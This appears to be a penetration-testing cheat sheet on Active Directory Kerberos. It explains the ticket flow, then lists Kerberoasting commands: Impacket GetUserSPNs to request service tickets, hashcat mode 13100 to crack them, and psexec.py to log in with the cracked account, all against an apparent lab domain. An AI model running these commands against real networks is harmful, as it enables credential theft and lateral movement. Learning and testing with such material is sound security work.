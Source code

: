 ### Kerberos

- When a user logs on to Active Directory, the user authenticates to the Domain Controller (DC) using the user’s password which of course the DC knows.
- The DC sends the user a Ticket Granting Ticket (TGT) Kerberos ticket. The TGT is presented to any DC to prove authentication for Kerberos service tickets.
- The user opens up Skype which causes the user’s workstation to lookup the Service Principal Name (SPN) for the user’s Exchange server.
- Once the SPN is identified, the computer communicates with a DC again and presents the user’s TGT as well as the SPN for the resource to which the user needs to communicate.
- The DC replies with the Ticket Granting Service (TGS) Kerberos service ticket.
- The user’s workstation presents the TGS to the Exchange server for access.


![kerberoast](/assets/Kerberos.png)

### How to Kerberoast [simple]

- With access look for supported SPNs and get TGS ticket for the SPN using GetUserSPNs tool from Impacket

```
GetUserSPNs.py -request -dc-ip <DC_IP> <domain\user>

sudo python3 GetUserSPNs.py BASEJUMP.local/rfeynman:Password -dc-ip $ip -request

```

- Crack hash

```
Hashcat -m 13100 <hash_file> <wordlist>
```

- Use psexec.py to login
```
psexec.py BASEJUMP.local/svc_tgs:helloworldpassword@IP
```
